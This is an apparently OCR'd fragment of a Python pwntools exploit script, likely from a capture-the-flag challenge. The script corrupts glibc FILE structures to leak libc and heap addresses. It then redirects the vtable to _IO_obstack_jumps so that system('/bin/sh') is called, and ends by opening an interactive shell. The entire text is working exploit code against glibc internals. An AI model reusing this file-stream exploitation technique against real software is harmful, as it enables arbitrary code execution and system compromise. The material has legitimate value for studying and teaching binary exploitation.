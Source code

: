 ```python
_mode=0xc0
_vtable = 0xd8
#executing _IO_file_doallocate to populate _IO_buf_base with a heap address
trick(_vtable, 0xa8)
flush()
sleep(1)
#restoring the vtable
trick(_vtable, 0xa0)
#making _IO_write_ptr > _IO_write_base 
trick(_IO_write_ptr, 1)
flush()
sleep(1)
#leaking libc
trick(_fileno, 1)
trick(_IO_write_ptr, 0x78)
trick(_IO_write_base, 0x70)
trick(_IO_read_end, 0x70)
flush()
sleep(1)
#receiving the leak and calculating libc base address
leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8,b"\x00"))
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x1e8f60
log.info(f"libc = {hex(libc.address)}")
#getting a heap leak
trick(_fileno, 1)
#calculating topchunk address in the main arena
topchunk = libc.address + 0x1ecbe0
log.info(f"top_chunk = {hex(topchunk)}")
write_addr(_IO_write_ptr, topchunk+8)
write_addr(_IO_write_base, topchunk)
write_addr(_IO_read_end, topchunk)
#write_addr(_flags, (0xfbad1800 | 0x8000))
sleep(1)
flush()
#receiving the leak and calculating addresses
heap_leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8, b"\x00"))
log.info(f"heap_leak = {(hex(heap_leak))}")
heap_base = heap_leak - 0x2480
log.info(f"Heap base = {hex(heap_base)}")
#shifting the vtable to point __sync to _IO_obstack_jumps 
shift_obstack_jumps = libc.address + 0x1e9218
log.info(f"shift_obstack_jumps = {hex(shift_obstack_jumps)}")
write_addr(_vtable, shift_obstack_jumps)
#writing the obstack struct pointers
write_addr(0xe0, heap_base+0x2a0)
write_addr(_flags, heap_base+0x2a0)
#setting arguments for CALL_FREEFUN within _obstack_newchunk
log.info(f"system = {hex(libc.sym.system)}")
write_addr(_IO_backup_base, 0xdeadbeef)
write_addr(_IO_buf_base, libc.sym.system) # function to call
log.info(f"/bin/sh = {hex(next(libc.search(b'/bin/sh')))}")
write_addr(_IO_save_base, next(libc.search(b'/bin/sh'))) # arg of function
#drop a shell
flush()
#========= interactive ====================
r.interactive()
```

